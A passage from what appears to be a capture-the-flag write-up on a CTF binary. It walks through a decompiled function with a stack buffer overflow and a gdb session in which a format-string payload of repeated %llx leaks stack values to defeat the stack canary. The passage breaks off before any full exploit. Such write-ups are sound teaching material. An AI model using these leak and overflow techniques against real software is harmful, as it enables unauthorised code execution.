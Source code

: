 So we can see here, it pretty much does what we expected. Scans in input, then prints it unformatted using printf to have a format string vulnerability. Let's take a look at the `buffer_overflow_vuln()`

```
__int64 buffer_overflow_vuln()
{
  char buf; // [sp+0h] [bp-90h]@1
  __int64 stack_canary; // [sp+88h] [bp-8h]@1

  stack_canary = *MK_FP(__FS__, 40LL);
  memset(&buf, 0, 0x80uLL);
  read(0, &buf, 0x100uLL);
  printf("-> %s\n", &buf);
  return *MK_FP(__FS__, 40LL) ^ stack_canary;
}
```

Looking at this, we can see that it reads in 0x100 (256) bytes of data into the buffer with only 136 bytes of space (0x90 - 0x08 = 136). So this is a buffer overflow bug. So we should be able to use the buffer overflow vulnerability to hack the program. However our first hurdle will be to defeat the stack canary.

In order to reach the return address to gain code flow execution, we will have to write over the stack canary. Before we do that, we will need to leak the stack canary, so we can write over the stack canary with itself. That way when the stack canary is checked, everything will check out. We should be able to accomplish this using the format string exploit to leak an address. We can find the offset using gdb.

First set a breakpoint for the stack canary check in the `format_string_vuln` function, then run that function, then leak a bunch of 8 byte hex strings:
```
gdb-peda$ b *0x40094a
Breakpoint 1 at 0x40094a
gdb-peda$ r
Starting program: /Hackery/asis/mary/mary_morton
Welcome to the battle !
[Great Fairy] level pwned
Select your weapon
1. Stack Bufferoverflow Bug
2. Format String Bug
3. Exit the battle
2
%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.%llx.
7fffffffdea0.7f.7ffff7b08890.0.0.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c6c252e786c6c25.252e786c6c252e78.786c6c252e786c6c.6c252e786c6c252e.2e786c6c252e786c.6c252e786c6c25.0.b7241689fbb16c00.7fffffffdf70.4008b8.
```
